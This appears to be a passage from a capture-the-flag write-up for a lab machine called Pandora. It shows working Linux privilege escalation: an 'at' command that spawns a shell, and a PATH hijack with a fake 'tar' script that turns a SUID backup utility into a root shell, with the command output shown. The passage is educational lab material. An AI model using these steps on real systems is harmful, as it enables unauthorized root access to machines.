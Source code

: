 ```c
Backup successful!
Terminating program!
;*3$"
GCC: (Debian 10.2.1-6) 10.2.1 20210110
crtstuff.c

...

```

Inorder to exploit this, we need an elevated shell with no restriction, for that we can use ```/usr/bin/at``` SUID binary to [bypass](https://gtfobins.github.io/gtfobins/at/) it,

Now we can confirm that we have an elevated shell,

```c
matt@pandora:/$ ls /tmp
ls /tmp
matt@pandora:/$ 

    echo "/bin/sh <$(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null


matt@pandora:/$ 
<(tty) >$(tty) 2>$(tty)" | at now; tail -f /dev/null
warning: commands will be executed using /bin/sh
job 2 at Wed Mar 30 18:23:00 2022
/bin/sh: 0: can't access tty; job control turned off
$ $ ls /tmp
ls /tmp
systemd-private-4b7bb41d4d684fdcb8f054e8d71db052-apache2.service-g5jfnj
systemd-private-4b7bb41d4d684fdcb8f054e8d71db052-systemd-logind.service-r0r3ug
systemd-private-4b7bb41d4d684fdcb8f054e8d71db052-systemd-resolved.service-dpsyag
systemd-private-4b7bb41d4d684fdcb8f054e8d71db052-systemd-timesyncd.service-6opwTh
tmux-1001
vmware-root_697-3988163015
```

We can easily exploit this ```SUID binary``` to drop ```root shell```, because the ```tar``` command used here does'nt use absolute path

Now crafting our ```malicious tar``` binary and abusing the ```$PATH``` variable,

```c
$ cd /tmp
cd /tmp
$ echo "/bin/sh -p" >tar
echo "/bin/sh -p" >tar
$ chmod +x tar
chmod +x tar
$ export PATH=/tmp:$PATH
export PATH=/tmp:$PATH
$ /usr/bin/pandora_backup
/usr/bin/pandora_backup
PandoraFMS Backup Utility
Now attempting to backup PandoraFMS client
/bin/sh: 0: can't access tty; job control turned off
# id
id
uid=0(root) gid=1000(matt) groups=1000(matt)
# whoami
whoami
root
# cat /root/root.txt
cat /root/root.txt
<ROOT FLAG>
```
